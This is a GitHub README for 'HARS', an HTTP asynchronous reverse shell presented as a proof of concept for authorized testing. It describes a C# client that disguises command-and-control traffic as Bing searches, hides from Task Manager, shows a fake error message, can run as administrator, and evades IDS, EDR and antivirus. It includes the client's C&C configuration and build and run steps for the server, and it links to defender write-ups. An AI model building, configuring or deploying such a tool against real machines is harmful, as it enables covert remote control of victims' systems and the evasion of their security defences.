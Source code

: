 # HTTP/S Asynchronous Reverse Shell

Table of contents

 1. [Introduction](#intro)
 2. [Features](#features)
 3. [Demonstration](#demo)
 4. [Configuration](#config)

------------

### Why ? 
<a name="intro"></a>

Today there are many ways to create a reverse shell in order to be able to remotely control a machine through a firewall. Indeed, outgoing connections are not always filtered.

However security software and hardware (IPS, IDS, Proxy, AV, EDR...) are more and more powerful and can detect those attacks. Most of the time the connection to a reverse shell is established through a L4 TCP tunnel.

I figured that the best way to stay undetected would be to make it look like legitimate traffic. The HTTP protocol (Layer 7) is the most used by a standard user. Moreover it is almost never filtered so as not to block access to websites.

The particularity of this POC is that the communication is completely asynchronous, and it only uses GET requests.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Architecture.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Architecture.png?raw=true)

### How it works ?
1) The client app is executed on the target machine.
2) The client initiates the connection with the server.
3) The server accepts the connection.

Then:  
-The client queries the server until it gets instructions.\
-The attacker provides instructions to the server.\
-When a command is defined, the client executes it and returns the result.

And so on, until the attacker decides to end the session.
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Concept.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Concept.png?raw=true)

### Disclaimer

This tool is only intended to be a proof of concept demonstration tool for authorized security testing. Make sure you check with your local laws before running this tool.

------------

### Features 
<a name="features"></a>

Today, as a poc, the following functionalities are implemented: 

1. Fake HTTP traffic to appear as searches on bing.com.
2. Commands are base64 encoded in the HTML response.
3. The result of the commands is encoded in base64 as a cookie by the client.
4. [Optional] SSL support; by default it is a fake bing.com certificate.
5. Random delay between each client call to avoid triggering IDSs.
6. Random template is used for each response from the server.
7. Re-use of the same powershell process to avoid triggering EDRs.
8. Support for all Cmd and Powershell commands.
9. [Optional] The client can display a fake error message at startup.
10. The client is hidden from tasks manager.
11. [Optional] The client can be run as an administrator.

##### AV Detection

Only 3 out of 69 products were able to detect the client as malicious, without applying any evasive or obfuscation techniques.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/av_detection.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/av_detection.png?raw=true)

------------

### Demonstration
<a name="demo"></a>

**Client side**
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/client_demo.gif?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/client_demo.gif?raw=true)

**Server side**
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/server_demo.gif?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/server_demo.gif?raw=true)

------------

### Configuration
<a name="config"></a>

**Client : C Sharp**

1. Open *HARS.sln* in Visual Studio

**Config.cs**

This file contains parameters ; Assign the values you want :

    class Config
        {
            /* Behavior */
            // Display a fake error msg at startup
            public static bool DisplayErrorMsg = true;
            // Title of fake error msg
            public static string ErrorMsgTitle = "This application could not be started.";
            // Description of fake error msg
            public static string ErrorMsgDesc = "Unhandled exception has occured in your application. \r\r Object {0} is not valid.";
            // Min delay between the client calls
            public static int MinDelay = 2;
            // Max delay between the client calls
            public static int MaxDelay = 5;
            // Fake uri requested - Warning : it must begin with "search" (or need a change on server side)
            public static string Url = "search?q=search+something&qs=n&form=QBRE&cvid=";
            /* Listener */
            // Hostname/IP of C&C server
            public static string Server = "https://127.0.0.1";
            // Listening port of C&C server
            public static string Port = "443";
            // Allow self-signed or "unsecure" certificates - Warning : often needed in corporate environment using proxy
            public static bool AllowInsecureCertificate = true;
        }

**HARS.manifest**

Change this line to run by default the client with certain privileges : 

`<requestedExecutionLevel  level="requireAdministrator" uiAccess="false" />`  

With  
`<requestedExecutionLevel  level="asInvoker" uiAccess="false" />`  
or  
`<requestedExecutionLevel  level="requireAdministrator" uiAccess="false" />`  
or  
`<requestedExecutionLevel  level="highestAvailable" uiAccess="false" />`  

**Projet properties**

Here you can customize the assembly information and an icon for the file.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/project_config.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/project_config.png?raw=true)

Note : Target .NET framework version is set to 4.6 which is available by default in Windows 10.    
*For Windows 7, choose .NET 3.5 if you don't want to have to install missing features.*

#### Build

Build the project from Visual Studio.
The client should be generated in `Http Asynchronous Reverse Shell\HARS_Client\HARS\bin\Release` folder.

**Done!**

------------

**Server : Python**

**HARS_Server.py**
Location : `Http Asynchronous Reverse Shell\HARS_Server\www`

Simply change the port or location on the certificate if needed in the config section.

    # Config
    PORT = 443
    CERT_FILE = '../server.pem'

#### Run

`python HARS_Server.py`

#### Notes

-HTTP Logs are located in `Http Asynchronous Reverse Shell\HARS_Server\logs`\  
-You can add your own templates (any html page) in `Http Asynchronous Reverse Shell\HARS_Server\templates`

#### Review

A good review from the defender side by Lee Kirkpatric : https://community.rsa.com/community/products/netwitness/blog/2020/04/01/using-rsa-netwitness-to-detect-http-asynchronous-reverse-shell-hars  
Another deep analysis from Nasreddine Bencherchali : https://nasbench.medium.com/understanding-detecting-c2-frameworks-hars-682b30f0505c  
Ty Guys  

#BlueTeam  

------------
@onSec-fr
